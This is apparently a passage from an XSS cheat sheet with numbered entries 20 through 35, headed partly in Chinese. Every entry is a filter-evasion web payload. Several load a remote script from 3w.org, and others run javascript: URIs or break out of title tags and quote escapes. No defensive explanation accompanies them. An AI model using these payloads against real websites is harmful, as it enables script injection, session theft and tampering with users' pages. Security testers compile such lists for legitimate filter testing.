 (20) Non-alpha-non-digit XSS

    <SCRIPT/XSS SRC=”http://3w.org/XSS/xss.js”></SCRIPT>

(21) Non-alpha-non-digit XSS to 2

    <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(“XSS”)>

(22) Non-alpha-non-digit XSS to 3

    <SCRIPT/SRC=”http://3w.org/XSS/xss.js”></SCRIPT>

(23) 双开括号

    <<SCRIPT>alert(“XSS”);//<</SCRIPT>

(24) 无结束脚本标记(仅火狐等浏览器)

    <SCRIPT SRC=http://3w.org/XSS/xss.js?<B>

(25) 无结束脚本标记2

    <SCRIPT SRC=//3w.org/XSS/xss.js>

(26) 半开的HTML/JavaScript XSS

    <IMG SRC=”javascript:alert(‘XSS’)”

(27) 双开角括号

    <iframe src=http://3w.org/XSS.html <

(28) 无单引号 双引号 分号

    <SCRIPT>a=/XSS/
    alert(a.source)</SCRIPT>

(29) 换码过滤的JavaScript

    \”;alert(‘XSS’);//

(30) 结束Title标签

    </TITLE><SCRIPT>alert(“XSS”);</SCRIPT>

(31) Input Image

    <INPUT SRC=”javascript:alert(‘XSS’);”>

(32) BODY Image

    <BODY BACKGROUND=”javascript:alert(‘XSS’)”>

(33) BODY标签

    <BODY(‘XSS’)>

(34) IMG Dynsrc

    <IMG DYNSRC=”javascript:alert(‘XSS’)”>

(35) IMG Lowsrc

    <IMG LOWSRC=”javascript:alert(‘XSS’)”>
